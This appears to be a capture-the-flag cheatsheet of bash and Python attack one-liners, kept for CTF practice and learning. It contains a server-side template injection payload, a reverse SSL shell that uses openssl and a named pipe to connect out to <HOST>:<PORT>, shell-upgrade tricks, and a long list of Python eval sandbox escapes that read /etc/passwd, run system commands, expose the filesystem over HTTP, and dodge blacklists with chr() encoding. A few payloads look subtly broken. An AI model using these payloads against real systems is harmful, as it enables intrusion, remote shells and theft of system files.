 # Bash And CTF Cheatsheet

## Server Side Template Injection
```bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}
```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```

### Shellcode Extractor

```bash
objdump -d ./orww|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
Source : [http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/](http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/) 

### Reverse SSL shell openssl - @ThemsonMester

Before the listener can be started, a key pair and a certificate must be generated.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

#### Listener
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

#### Shell
```bash
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s
```
Source : [https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c](https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c)

### Spawn("/bin/bash") if no python installed

No python installed for the 'pty.spawn("/bin/bash")' trick? Can use expect or script as well :D

#### Script
```bash
SHELL=/bin/bash script -q /dev/null
```

#### expect
```bash
expect -c 'spawn bash; interact'
```
Source : [https://twitter.com/ropnop/status/884928178048860160](https://twitter.com/ropnop/status/884928178048860160)


### awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```

## Python eval payload

```python
print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
 
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m SimpleHTTPServer')
 
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['xrange'](-999999999,99999999))
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer')
 
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer'))

# If system or popen or __import__ is blacklisted

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('pty).spawn('sh')

[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('subprocess').check_output('ls')
```
source : [https://www.floyd.ch/?p=584](https://www.floyd.ch/?p=584) 

